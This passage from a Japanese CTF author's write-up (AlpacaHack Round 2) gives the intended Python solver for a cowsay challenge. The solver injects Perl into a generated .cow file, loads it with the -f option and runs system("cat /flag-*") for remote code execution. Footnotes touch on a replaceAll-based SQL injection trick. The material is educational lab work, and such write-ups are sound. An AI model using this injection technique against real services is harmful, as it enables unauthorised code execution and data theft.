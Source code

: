 ### ソルバ

解法は色々とあると思いますが、作問者の解法は以下のとおりです:
```python
import os
import httpx
from urllib.parse import quote

HOST = os.getenv("HOST", "localhost")
PORT = int(os.getenv("PORT", 3000))

client = httpx.Client(base_url=f"http://{HOST}:{PORT}")

def cowsay(messages: list[str]) -> str:
  uuid = client.get(f"/say?{"&".join([f"message[]={quote(m)}" for m in messages])}").json()["uuid"]
  return uuid

messages = ["-f", "suse", 'system("cat /flag-*"); s@']
uuid = cowsay(messages)
print(f"{uuid = }")

# ./{uuid}:
# ```perl
#  ___________________________
# < system("cat /flag-*"); s@ >
#  ---------------------------
#   \
#    \____
#   /@    ~-.
#   \/ __ .- |
#    // //  @
# ````

messages = ["-f", f"./{uuid}", "RCE with Cowsay Assistance!"]
uuid = cowsay(messages)
out = client.get(f"/out/{uuid}").text
print(out)
```

`suse.cow`を用いて、また、`s/foo/bar/`形式の置換を組み合わせることによっていい感じにPerlとしてvalidになるように構成しています。実は区切り文字は`/`じゃなくても問題なく、`@`を区切り文字として使っています。これは古い言語あるある仕様です。

### 感想/補遺

この問題は自由度が高いパズルなので、人それぞれ最終的なソルバが異なっており、十人十色な答えが見れると楽しみにしてました。私は`s/foo/bar/`を用いましたが、その他、ヒアドキュメントや`__END__`を用いた解法もあったみたいです。

ぜひwriteupを書いて、https://alpacahack.com/ctfs/round-2/writeups に共有してみてください。

## Pico Note 2

- 428 pts (3 solves)
- https://alpacahack.com/ctfs/round-2/challenges/pico-note-2


[^intro-01]: 加えて、あまり広くリーチできていなかったというのと、タイムゾーンの問題があったにもかかわらず、海外の強い方にも多く参加してもらえてびっくり&感謝です。[CTFTime](https://ctftime.org/event/2465/)に登録したのも一定以上の効果があったりする？
[^intro-02]: AlpacaHackは常設CTFでもあるので、終わったCTFも実際にリモート環境でテストすることが可能です！
[^pico-note-1-01]: 厳密にはサブセットではありません。興味がある人は調べてみてください。
[^pico-note-1-02]: 最初は`replace`ではなく`replaceAll`を使ってましたが、レビュワーから「`replaceAll`のMDNのページには該当の仕様の記述がなく、知らない人が想定解にたどり着くのは困難」という指摘を受け、たしかにと思い`replace`に変更しました。実際、`replaceAll`のままだった場合として、難易度がどの程度変わるのかは気になるところです。
[^pico-note-1-03]: 記憶しているところではDragon CTF 2021のweb/webpwnで初めて遭遇しました（参考: https://balsn.tw/ctf_writeup/20211127-dragonctf2021/#webpwn ）。これは、replaceAllの仕様を悪用してSQLiを行う問題です。
[^caas-01]: タグ関数によっていい感じにエスケープされるようなインターフェイスは最近よく見ます。コマンド呼び出しだとzx以外にBunも[同様のインターフェイスのAPI](https://bun.sh/docs/runtime/shell)を提供していますし、SQLだと[Slonik](https://github.com/gajus/slonik)あたりがそうです。JavaScriptの言語機能をうまくSecure by Defaultなインターフェイスとして活用できていて、良い流れだなと思っています。